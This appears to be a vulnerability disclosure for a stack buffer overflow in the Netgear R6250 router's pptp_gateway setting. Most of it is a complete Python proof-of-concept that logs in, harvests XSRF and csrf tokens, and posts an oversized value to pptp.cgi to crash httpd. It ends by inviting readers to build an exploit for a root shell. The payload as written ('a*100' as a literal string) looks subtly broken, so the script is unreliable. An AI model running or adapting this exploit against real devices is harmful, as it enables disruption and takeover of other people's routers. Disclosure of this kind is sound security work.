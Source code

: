 # Netgear R6250 Buffer Overflow Vulnerabilit
There is a buffer overflow vulnerability in the Netgear R6250 router with Firmware Version 1.0.4.48.  

## Affected Product & Versions
Netgear R6250 V1.0.4.48  
(https://www.netgear.com/support/download/?model=R6250) Latest


## The Vulnerability

First, set the nvram value of pptp_gateway in the httpd binary at function sub_20640() via pptp.cgi
![Alt text](1.png)  

The function at address 17494 in the binary file 'acos_service' retrives the value of 'pptp_gateway' from nvram.Finally,the value of 'pprp_gateway' from nvram is concatenated to the sprintf function, which leads to a buffer overflow vulnerability.
![Alt text](2.png)
![Alt text](3.png)

## Recurring vulnerabilities and POC
First, boot the firmware via FirmAE:  
![Alt text](4.png)
Then, log in to 192.168.1.1 and configure the username and password:
![Alt text](5.png)
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of httpd process.
<pre>
import requests
import base64
import re

target = '192.168.1.1'
username = 'admin'
passwd = 'Qwer1234'
username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/BAS_pptp.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/pptp.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "pptp_gateway": "a*100","wan_proto": "pptp","static_pptp_enable":"1"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/VLAN_IPTV.htm", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
</pre>
![Alt text](6.png)
![Alt text](7.png)
![Alt text](8.png)
And you can write your own exp to get the root shell.